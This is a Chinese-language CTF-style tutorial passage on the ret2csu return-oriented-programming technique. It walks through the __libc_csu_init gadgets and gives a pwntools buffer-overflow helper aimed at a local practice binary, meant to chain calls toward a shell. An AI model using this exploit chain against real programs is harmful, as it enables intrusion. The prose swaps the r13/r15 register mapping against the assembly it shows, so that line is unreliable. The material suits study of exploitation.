 ## ret2csu

在上面几个栈溢出的使用中我们可以发现我们常对各个函数出手，去使用他们，函数中有个很关键的点就是参数，设置好对应的参数才可以让函数为我们所用。

其实对于不同的架构下的程序，参数的存放也是有讲究的。如x86 与 x64 的区别：

x86 都是保存在栈上面的， 而 x64 中的前六个参数依次保存在 RDI, RSI, RDX, RCX, R8 和 R9 中，如果还有更多的参数的话才会保存在栈上

x64程序里，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的 gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。 __libc_csu_init  主要用于 **初始化 libc 和全局构造器**  其核心功能是在 `main` 函数执行前完成必要的库初始化工作 。一句话，比较常见。

libc_csu_init内有两段gadget。

```asm
# Gadget 1: 控制寄存器的 pop 指令序列
pop    rbx
pop    rbp
pop    r12
pop    r13
pop    r14
pop    r15
ret

# Gadget 2: 设置参数并调用函数
mov    rdx, r15
mov    rsi, r14
mov    edi, r13d
call   qword ptr [r12 + rbx*8]

```

案例关于”利用csu去执行syscall来getshell“如下：

 可以将`r13`的值赋给`rdx`，`r14`的值赋给`rsi`，`r15d`（`r15`寄存器的低 32 位 ）的值赋给`edi` 。虽然直接操作的是`edi`（`rdi`的低 32 位 ），但由于`rdi`高 32 位默认值为 0，所以能间接控制`rdi`寄存器的值。在 x64 函数调用规范里，`rdx`、`rsi`、`edi`（对应`rdi`低 32 位 ）是前三个用于传递参数的寄存器 ，这意味着通过这种赋值操作，可以为函数调用准备参数。  `r12`和`rbx`寄存器在特定情况下可用于控制函数调用。当把`rbx`的值设为 0，`r12`的值设为想要调用函数的地址 。

```python
#案例
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8

def csu(rbx, rbp, r12, r13, r14, r15, last):
    payload = 'a' * 0x80 + fakeebp          # 填充缓冲区
    payload += p64(csu_end_addr)            # 跳转到 Gadget 2
    payload += p64(rbx) + p64(rbp)          # rbx=0, rbp=1（绕过 cmp 检查）
    payload += p64(r12) + p64(r13)          # r12=目标函数地址，r13=rdx
    payload += p64(r14) + p64(r15)          # r14=rsi, r15=rdi
    payload += p64(csu_front_addr)          # 跳转到 Gadget 1
    payload += 'a' * 0x38                   # 填充 add rsp,8 和 6 pop
    payload += p64(last)                    # 返回地址（如 main）
    sh.send(payload)
    sleep(1)

```